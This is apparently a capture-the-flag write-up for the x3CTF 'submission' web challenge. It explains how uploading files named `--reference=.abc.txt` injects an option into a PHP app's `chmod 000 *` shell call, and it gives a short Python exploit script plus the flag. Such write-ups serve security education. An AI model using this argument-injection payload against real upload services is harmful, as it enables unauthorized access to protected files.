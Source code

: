 ```yaml
---
layout: post
title: x3CTF - submission
date: 2025-01-26 10:59 -0400
---
```


[x3CTF](https://ctftime.org/event/2467/)

# submission (Web)
php app

## Solution
The bug is on
```php
$shell = shell_exec('chmod 000 *');
```
If we create a file with a name like `--help` chmod will interpret as a flag instead of a file.
So we use `--reference=somefile` that replaces the 000 mode with the perms from `somefile`.

The second interesting part is how we get a file that has read perms. We can't create files with `/` so no path traversal. The solution is to create a dotfile, glob won't select those. So the perms remain the same.

```python
#!/usr/bin/env python3
import requests

REMOTE = "http://0.0.0.0:8080/"

res = requests.post(REMOTE, files={"file": (".abc.txt", "ble")})
res = requests.post(REMOTE, files={"file": ("--reference=.abc.txt", "ble")})
res = requests.get(REMOTE + "/uploads/flag.txt")
print(res.text)
```

## Flag
`x3c{4lw4y5_chm0d_y0ur3_f1l35_4_53cur17y}`

shafouz 2025/01/26
